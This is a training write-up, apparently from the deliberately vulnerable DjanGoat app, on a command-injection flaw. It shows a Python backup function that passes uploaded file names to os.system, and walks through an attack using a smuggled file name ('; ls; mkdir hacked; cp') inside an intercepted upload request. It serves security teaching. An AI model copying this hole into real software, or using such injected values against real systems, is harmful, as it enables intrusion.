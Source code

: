 # A1: Command Injection

### Description

This vulnerability can be found at app/models/Benefits/benefits.py
```python
@staticmethod
def save_data(file, backup=None):
    data_path = os.path.join(settings.MEDIA_ROOT, "data")
    full_file_name = os.path.join(data_path, file.name)
    # the uploaded file is read at once, as duplicated in railsgoat
    # use file.chunk() in a loop can prevent overwhelming system memory
    content = ContentFile(file.read())
    default_storage.save(full_file_name, content)
    if backup == "true":
        return Benefits.make_backup(file, data_path, full_file_name)

@staticmethod
@silence_streams
def make_backup(file, data_path, full_file_name):
    if os.path.isfile(full_file_name):
        epoch_time = int(time.time())
        bak_file_path = "%s/bak%d_%s" % (data_path, epoch_time, file.name)
        # intended vulnerability for command injection
        os.system("cp %s %s" % (full_file_name, bak_file_path))
        return bak_file_path
```

The code executes system level command with user uploaded file name in string. A user can upload a file named with system commands to execute a command injection attack.

### Attack

This is one way of doing a command injection:
1. Set up an intercepting proxy
2. Create a file named "; ls; mkdir hacked; cp"
3. Login and navigate to benefit forms page
4. Upload the file "; ls; mkdir hacked; cp"
5. Intercept the POST request, which should look like:
    ```
    ------WebKitFormBoundary0tXzAPCVysul0K4b
    Content-Disposition: form-data; name="csrfmiddlewaretoken"
     
    W8E9x5u23dYaKOrLZus6XG2j99fZfu8uGMs73HnV2fvP2Yqc9UVQD8Pkgq8UYIRQ
    ------WebKitFormBoundary0tXzAPCVysul0K4b
    Content-Disposition: form-data; name="myfile"; filename="; ls; mkdir hacked; cp"
    Content-Type: application/octet-stream
     
     
    ------WebKitFormBoundary0tXzAPCVysul0K4b
    Content-Disposition: form-data; name="backup"
     
    False
    ------WebKitFormBoundary0tXzAPCVysul0K4b--
    ```
6. Change the False to true at backup, resend the request, the new request should look like:
    ```
    ------WebKitFormBoundary0tXzAPCVysul0K4b
    Content-Disposition: form-data; name="csrfmiddlewaretoken"
     
    W8E9x5u23dYaKOrLZus6XG2j99fZfu8uGMs73HnV2fvP2Yqc9UVQD8Pkgq8UYIRQ
    ------WebKitFormBoundary0tXzAPCVysul0K4b
    Content-Disposition: form-data; name="myfile"; filename="; ls; mkdir hacked; cp"
    Content-Type: application/octet-stream
     
     
    ------WebKitFormBoundary0tXzAPCVysul0K4b
    Content-Disposition: form-data; name="backup"
     
    true
    ------WebKitFormBoundary0tXzAPCVysul0K4b--
    ```
7. You should be able to see 'ls' is executed from terminal, and there is a newly created directory named 'hacked' in DjanGoat base directory.